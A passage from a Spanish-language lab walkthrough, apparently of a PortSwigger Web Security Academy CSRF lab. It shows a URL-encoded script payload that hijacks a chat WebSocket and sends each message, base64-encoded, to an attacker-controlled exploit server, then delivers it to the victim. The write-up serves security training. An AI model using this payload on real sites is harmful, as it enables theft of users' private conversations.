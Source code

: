 `URL encodeamos` el payload

![](/assets/img/CSRF-Lab-9/image_25.png)

`Construimos` un `payload`

```
<html>
    <body>
        <script>
            document.location = 'https://cms-0a02002b038d819781de438e00860086.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%30%32%30%30%32%62%30%33%38%64%38%31%39%37%38%31%64%65%34%33%38%65%30%30%38%36%30%30%38%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%0a%20%20%20%20%77%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%77%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%65%6e%74%2e%64%61%74%61%3b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%36%33%30%30%64%34%30%33%63%61%38%31%61%38%38%31%62%63%34%32%32%33%30%31%30%35%30%30%64%65%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6c%6f%67%3d%27%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%47%45%54%27%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=test';
        </script>
    </body>
</html>
```

Nos dirigimos al `Exploit server`, `pegamos` el `payload` y `pulsamos` sobre `Deliver exploit to victim`

![](/assets/img/CSRF-Lab-9/image_26.png)
